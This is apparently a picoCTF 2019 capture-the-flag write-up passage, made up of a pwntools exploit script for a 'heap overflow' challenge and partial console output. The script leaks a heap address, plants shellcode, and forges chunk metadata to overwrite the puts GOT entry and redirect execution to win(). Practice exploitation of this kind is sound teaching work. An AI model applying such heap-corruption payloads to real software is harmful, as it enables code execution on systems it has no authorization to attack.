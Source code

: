 ```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --user dvdalt --path /problems/heap-overflow_2_de0f6daa62288c9b3afb950888dc7166/vuln

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      No PIE (0x8048000)
# RWX:      Has RWX segments

import os

if shell is not None:
    shell.set_working_directory(os.path.dirname(remote_path))

io = start()

io.recvuntil("Oops! a new developer copy pasted and printed an address as a decimal...\n")
address = int(io.recvline())

log.info("Address of fullname: {}".format(hex(address)))
log.info("Address of win(): {}".format(hex(exe.symbols["win"])))

shellcode = asm('jmp l1; nop;nop;nop;nop;nop;nop;nop;nop;nop;nop;nop;nop; l1: push {}; ret;'.format(hex(exe.symbols["win"])))
log.info("shellcode:\n{}".format(hexdump(shellcode)))

payload = shellcode + ('B' * (664-len(shellcode))) + p32(100, sign = "signed") + p32(-4, sign = "signed") + p32(exe.got["puts"] - 12) + p32(address)
log.info("payload:\n{}".format(hexdump(payload)))

io.sendlineafter("Input fullname", payload)
io.sendlineafter("Input lastname", "a")

print io.recvall()
```

Output:
```console
root@kali:/media/sf_CTFs/pico/Heap_overflow# python exploit.py
[*] '/media/sf_CTFs/pico/Heap_overflow/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] dvdalt@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (13B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.79dCV2wlSk'
[+] Opening new channel: 'ln -s /home/dvdalt/* .': Done
[+] Receiving all data: Done (0B)
```